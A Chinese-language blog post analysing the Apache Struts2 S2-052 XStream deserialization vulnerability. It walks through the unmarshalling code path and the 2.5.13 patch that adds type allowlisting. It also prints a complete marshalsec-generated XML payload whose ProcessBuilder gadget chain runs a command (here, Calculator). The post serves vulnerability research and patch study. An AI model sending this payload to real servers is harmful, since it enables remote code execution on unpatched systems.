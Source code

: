 ```yaml
---
layout: post  
title: "s2-052 漏洞解析和补丁分析"  
date: 2017-09-08
description: "java漏洞"  
tag: java漏洞
---
```

##  问题复现  
9月5号，在北京出差的时候，就听到群里大师傅们在讨论s2-052，当时根据官方链接，作者说的很清楚，在XStreamHandler函数toObject中,在进行xml转object的时候，没有任何的防御措施，导致可以直接反序列化。由于酒店的网太烂了，maven依赖一直下载不下来，回到公司后一切顺利地可以进行。本来当网就想调试分析一下的，但是关于XStream的用法，可以参考[http://www.cnblogs.com/m3Lee/p/3820832.html?utm_source=tuicool&utm_medium=referral](http://www.cnblogs.com/m3Lee/p/3820832.html?utm_source=tuicool&utm_medium=referral),可以这么理解，XStream这个东西就是为了将xml和java对象之间转换的工具。至于为什么要将java对象转换成xml，答案是为了方便存储，和writeObject类似的效果，只不过writeObject将对象保存为一个反序列化格式的文件, XStream将对象保存为xml格式。  
找到[https://github.com/mbechler/marshalsec](https://github.com/mbechler/marshalsec)，将其下载下来，根据is_win师傅给的生成payload当时，我们传入两个参数，分别为ImageIO, /Applications/Calculator.app/Contents/MacOS/Calculator。
![](http://pic.findbugs.top/17-9-8/11959949.jpg)
对marshalsec项目下断点分析，可以看到最后形成的poc 如下:  
```
<map>
  <entry>
    <jdk.nashorn.internal.objects.NativeString>
      <flags>0</flags>
      <value class="com.sun.xml.internal.bind.v2.runtime.unmarshaller.Base64Data">
        <dataHandler>
          <dataSource class="com.sun.xml.internal.ws.encoding.xml.XMLMessage$XmlDataSource">
            <is class="javax.crypto.CipherInputStream">
              <cipher class="javax.crypto.NullCipher">
                <initialized>false</initialized>
                <opmode>0</opmode>
                <serviceIterator class="javax.imageio.spi.FilterIterator">
                  <iter class="javax.imageio.spi.FilterIterator">
                    <iter class="java.util.Collections$EmptyIterator"/>
                    <next class="java.lang.ProcessBuilder">
                      <command>
                        <string>/Applications/Calculator.app/Contents/MacOS/Calculator</string>
                      </command>
                      <redirectErrorStream>false</redirectErrorStream>
                    </next>
                  </iter>
                  <filter class="javax.imageio.ImageIO$ContainsFilter">
                    <method>
                      <class>java.lang.ProcessBuilder</class>
                      <name>start</name>
                      <parameter-types/>
                    </method>
                    <name>foo</name>
                  </filter>
                  <next class="string">foo</next>
                </serviceIterator>
                <lock/>
              </cipher>
              <input class="java.lang.ProcessBuilder$NullInputStream"/>
              <ibuffer></ibuffer>
              <done>false</done>
              <ostart>0</ostart>
              <ofinish>0</ofinish>
              <closed>false</closed>
            </is>
            <consumed>false</consumed>
          </dataSource>
          <transferFlavors/>
        </dataHandler>
        <dataLen>0</dataLen>
      </value>
    </jdk.nashorn.internal.objects.NativeString>
    <jdk.nashorn.internal.objects.NativeString reference="../jdk.nashorn.internal.objects.NativeString"/>
  </entry>
  <entry>
    <jdk.nashorn.internal.objects.NativeString reference="../../entry/jdk.nashorn.internal.objects.NativeString"/>
    <jdk.nashorn.internal.objects.NativeString reference="../../entry/jdk.nashorn.internal.objects.NativeString"/>
  </entry>
</map>
```
很熟悉的格式，我们可以反推，当调用xstream.fromXML进行解析xml的时候，该对象会有字段ProcessBuilder，最后反序列化的时候大概会是这个效果。
```
new ProcessBuilder("Applications/Calculator.app/Contents/MacOS/Calculator").start()
```
跟进ProcessBuilder类，发现了commond字段
![](http://pic.findbugs.top/17-9-8/60983788.jpg)
那么其和xml的中的节点
```
<command>
                        <string>/Applications/Calculator.app/Contents/MacOS/Calculator</string>
                      </command>
```
可以匹配起来了，至此可以弹出计算器。  
跟踪原作者的提示，我在toObject处下断点。整个堆栈调试情况如下:  
![](http://pic.findbugs.top/17-9-11/21020967.jpg)
可以清晰的看到，在ContentTypeInterceptor类中，首先判断了请求body的长度，并且将其交由XStreamHandler做toObject处理。
继续跟进到xstream.fromXML 这个函数，以便于我们深刻理解xstream到底是怎么将一个xml解析的。跟进XStream类中的fromXML，发现其调用了unmarshal函数，经过层层跟进我们最终来到了MapConverter类中的unmarshal函数，
![](http://pic.findbugs.top/17-9-11/49876782.jpg)
Xstream将xml数据解析并放到一个map里面。
![](http://pic.findbugs.top/17-9-11/82546916.jpg)
某处关键代码如下  
```
protected void putCurrentEntryIntoMap(HierarchicalStreamReader reader, UnmarshallingContext context, Map map, Map target) {
        reader.moveDown();
        Object key = this.readItem(reader, context, map);
        reader.moveUp();
        reader.moveDown();
        Object value = this.readItem(reader, context, map);
        reader.moveUp();
        target.put(key, value);
    }
```
经过测试，在readItem的时候弹出了计算器，跟进这个函数。其中代码入下  
```
 protected Object readItem(HierarchicalStreamReader reader, UnmarshallingContext context, Object current) {
        Class type = HierarchicalStreams.readClassType(reader, this.mapper());
        return context.convertAnother(current, type);
    }
```  
其中HierarchicalStreams.readClassType(reader, this.mapper())为根据字符jdk.nashorn.internal.objects.NativeString获取到其具体的对象。
 经过持续的跟进，发现callReadResolve函数入下  
 ![](http://pic.findbugs.top/17-9-11/92268293.jpg)
 java反射机制。整个操作流程细节比较复杂，总结起来如下:
 xml先提取节点，解析到map
 迭代器继续解析节点
 反射机制执行恶意代码
 
## 补丁分析  
我调试struts2-rest-plugin插件的版本为2.5.12(影响版本参考[https://struts.apache.org/docs/s2-052.html](https://struts.apache.org/docs/s2-052.html))，我将依赖改成版本不受影响的2.5.13，这里把两个版本的源码diff一下。发现在createXStream的时候做了一些安全防护。其中新增了一个函数
![](http://pic.findbugs.top/17-9-11/29393266.jpg)
[http://x-stream.github.io/security.html](http://x-stream.github.io/security.html)。其中这段描述很清楚
XStream提供了一些TypePermission实现，允许任何类型或任何类型，以允许原始类型及其对应，空值，数组类型，实现通过常规或通配符表达式匹配类型的名称，一个用于反转权限。
![](http://pic.findbugs.top/17-9-11/60892122.jpg)
添加了xml可以反序列化的类，当解析到jdk.nashorn.internal.objects.NativeString的时候，由于没通过permission.allows的时候，无法正常return,直接抛出一个异常，终止整个过程。  
```
 public Class realClass(String elementName) {
        Class type = super.realClass(elementName);

        for(int i = 0; i < this.permissions.size(); ++i) {
            TypePermission permission = (TypePermission)this.permissions.get(i);
            if(permission.allows(type)) {
                return type;
            }
        }

        throw new ForbiddenClassException(type);
    }
}
```  
后面也就不会去解析之行了。至此，整个过程分析完毕。

##  参考资料   
http://x-stream.github.io/security.html
##  拓展学习  
http://www.freebuf.com/vuls/147017.html

